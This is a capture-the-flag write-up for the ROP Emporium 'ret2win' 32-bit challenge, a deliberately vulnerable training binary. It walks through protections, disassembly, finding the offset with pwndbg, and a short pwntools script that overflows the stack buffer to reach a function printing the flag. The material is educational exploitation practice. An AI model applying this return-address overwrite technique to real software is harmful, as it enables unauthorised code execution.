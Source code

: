 ret2win
=

Locate a method that you want to call within the binary.
Call it by overwriting a saved return address on the stack.

Gathering Information
=

As the title of the challenge says, we have to perform a ret2win. We can start of things by seeing the file type and check the protections on the given binary:

```
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped
```

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   72 Symbols        No    0               3               ret2win32
```

As we can see, its a pretty basic challenge with only NX enabled which shouldn't bother us.

We can run the binary and see what it does:

```
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> aaa  
Thank you!

Exiting
```

Nothing special.

Reversing the Code
=

We can now start looking at the binary. Opening pwndgb on the binary, we can list the functions:

```asm
0x08048374  _init
0x080483b0  read@plt
0x080483c0  printf@plt
0x080483d0  puts@plt
0x080483e0  system@plt
0x080483f0  __libc_start_main@plt
0x08048400  setvbuf@plt
0x08048410  memset@plt
0x08048420  __gmon_start__@plt
0x08048430  _start
0x08048470  _dl_relocate_static_pie
0x08048480  __x86.get_pc_thunk.bx
0x08048490  deregister_tm_clones
0x080484d0  register_tm_clones
0x08048510  __do_global_dtors_aux
0x08048540  frame_dummy
0x08048546  main
0x080485ad  pwnme
0x0804862c  ret2win
0x08048660  __libc_csu_init
0x080486c0  __libc_csu_fini
0x080486c4  _fini
```

Here, we can see there are 3 functions which stand out. Disassembling the main function, we only see it calling the pwnme function.
Disassembling the pwnme function, we can see this:

```asm
   0x080485ad <+0>:     push   ebp
   0x080485ae <+1>:     mov    ebp,esp
   0x080485b0 <+3>:     sub    esp,0x28
   0x080485b3 <+6>:     sub    esp,0x4
   0x080485b6 <+9>:     push   0x20
   0x080485b8 <+11>:    push   0x0
   0x080485ba <+13>:    lea    eax,[ebp-0x28]
   0x080485bd <+16>:    push   eax
   0x080485be <+17>:    call   0x8048410 <memset@plt>
   0x080485c3 <+22>:    add    esp,0x10
   0x080485c6 <+25>:    sub    esp,0xc
   0x080485c9 <+28>:    push   0x8048708
   0x080485ce <+33>:    call   0x80483d0 <puts@plt>
   0x080485d3 <+38>:    add    esp,0x10
   0x080485d6 <+41>:    sub    esp,0xc
   0x080485d9 <+44>:    push   0x8048768
   0x080485de <+49>:    call   0x80483d0 <puts@plt>
   0x080485e3 <+54>:    add    esp,0x10
   0x080485e6 <+57>:    sub    esp,0xc
   0x080485e9 <+60>:    push   0x8048788
   0x080485ee <+65>:    call   0x80483d0 <puts@plt>
   0x080485f3 <+70>:    add    esp,0x10
   0x080485f6 <+73>:    sub    esp,0xc
   0x080485f9 <+76>:    push   0x80487e8
   0x080485fe <+81>:    call   0x80483c0 <printf@plt>
   0x08048603 <+86>:    add    esp,0x10
   0x08048606 <+89>:    sub    esp,0x4
   0x08048609 <+92>:    push   0x38
   0x0804860b <+94>:    lea    eax,[ebp-0x28]
   0x0804860e <+97>:    push   eax
   0x0804860f <+98>:    push   0x0
   0x08048611 <+100>:   call   0x80483b0 <read@plt>
   0x08048616 <+105>:   add    esp,0x10
   0x08048619 <+108>:   sub    esp,0xc
   0x0804861c <+111>:   push   0x80487eb
   0x08048621 <+116>:   call   0x80483d0 <puts@plt>
   0x08048626 <+121>:   add    esp,0x10
   0x08048629 <+124>:   nop
   0x0804862a <+125>:   leave
   0x0804862b <+126>:   ret
```

We now have a buffer overflow scenario. Disassembling the ret2win function, we can see that the memory address `0x8048813` is calling `/bin/cat flag.txt` which is obviously where we want to return to after the overflow.
We wont directly return to `0x8048813` tho, we have to return to `0x0804862c` which is the address of the function.

```asm
   0x0804862c <+0>:     push   ebp
   0x0804862d <+1>:     mov    ebp,esp
   0x0804862f <+3>:     sub    esp,0x8
   0x08048632 <+6>:     sub    esp,0xc
   0x08048635 <+9>:     push   0x80487f6
   0x0804863a <+14>:    call   0x80483d0 <puts@plt>
   0x0804863f <+19>:    add    esp,0x10
   0x08048642 <+22>:    sub    esp,0xc
   0x08048645 <+25>:    push   0x8048813                        <----- /bin/cat flag.txt
   0x0804864a <+30>:    call   0x80483e0 <system@plt>
   0x0804864f <+35>:    add    esp,0x10
   0x08048652 <+38>:    nop
   0x08048653 <+39>:    leave
   0x08048654 <+40>:    ret
```

Lastly, we can confirm the offset by the inbuilt `cyclic` command which comes out to be `44`.

```asm
pwndbg> run
Starting program: /home/syntax-soup/Desktop/ROP Emporium/ret2win/32-bits/ret2win32 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Thank you!

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────────
*EAX  0xb
*EBX  0xf7e1dff4 (_GLOBAL_OFFSET_TABLE_) ◂— 0x21dd8c
*ECX  0xf7e1f9b8 (_IO_stdfile_1_lock) ◂— 0x0
 EDX  0x0
*EDI  0xf7ffcba0 (_rtld_global_ro) ◂— 0x0
*ESI  0x8048660 (__libc_csu_init) ◂— push ebp
*EBP  0x6161616b ('kaaa')
*ESP  0xffffcea0 ◂— 'maaanaaa'
*EIP  0x6161616c ('laaa')
```

Then by using this:

```asm
pwndbg> cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
```

we get our offset!

Now, we have all we need for our ret2win.

Exploiting the Binary
=

We can now build the script which does this stuff:

Buffer Overflow the input with 44 bytes.
Return to the ret2win function.

```py
from pwn import *

context.binary = elf = ELF("./ret2win32")

io = process()

offset = 44
ret2win_address = 0x0804862c

payload = b'A' * offset
payload += p32(ret2win_address)

io.recvline(">")
io.sendline(payload)

io.interactive()
io.close()
```

Running this gives us our flag!
